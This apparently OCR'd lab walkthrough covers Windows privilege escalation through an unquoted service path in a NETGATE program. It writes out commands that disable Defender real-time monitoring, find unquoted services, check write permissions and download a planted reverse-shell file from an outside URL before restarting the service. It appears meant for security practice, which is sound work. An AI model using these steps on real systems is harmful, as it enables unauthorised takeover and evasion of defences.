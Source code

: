 1. Install program vulnerable to unquoted sevices - https://www.netgate.sk/download/download.php?id=11
2. Run CMD as administrator and run the following command to grant write premissions - icacls "C:\Program Files\METGATE" /q /c /t /grant Users:F
3. Disable the antivirus using powershell - powershell.exe Set-mpPreference -DisableRealTimeMonitoring $true
4. Use wmic to list unquoted services - wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "C:\windows\\" |findstr /i /v """
5. Use accesschk to list write premissions in the service path - .\accesschk -qswu "administrator" "C:\Program Files\METGATE\*"
6. Create a malicious executable/bat to exe script that opens a reverce shell or a cmd and setup a listener
7. Upload the file to the correct path with the correct name using powershell to get him - (New-Object Net.webclient).DownloadFile(['url/file'],'path')
8. Restart the service - Win-key+R > Services.msc > Right-click > Restart
9. Execute whoami on the reverse shell